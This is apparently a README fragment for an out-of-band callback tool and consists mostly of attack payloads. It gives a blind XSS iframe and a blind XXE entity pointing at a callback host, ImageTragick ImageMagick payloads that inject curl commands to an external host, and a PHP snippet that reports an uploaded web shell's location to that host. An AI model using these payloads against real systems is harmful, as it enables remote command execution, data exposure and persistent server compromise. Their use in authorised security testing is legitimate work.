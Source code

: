 ###### EXAMPLES :
* Blind XSS :
> <iframe src="http://example/Hunter.php?url=victim.com"></iframe>

* Blind XXE :
> <!ENTITY name SYSTEM "http://example/Hunter.php?url=victim.com">

* ImageTragick :
>push graphic-context
>viewbox 0 0 640 480
>image over 0,0 0,0 'http://dead.epizy.com/1.php?x=%60curl http://dead.epizy.com/1.php'
>pop graphic-context

>%!PS
>userdict /setpagedevice undef
>legal
>{ null restore } stopped { pop } if
>legal
>mark /OutputFile (%pipe%curl -XGET http://dead.epizy.com/1.php') currentdevice putdeviceprops

* While uploading a Shell and didn't get it's path :
 
><?php  
>// this script make request to hunter contains the unknown path of the uploaded shell
>// the request will be sent once the file opened 
>$url = "http://example/hunter.php?location=".getcwd();
>$do = file_get_contents($url);
>if($do) {
>  print "location sent";
>}
>?>
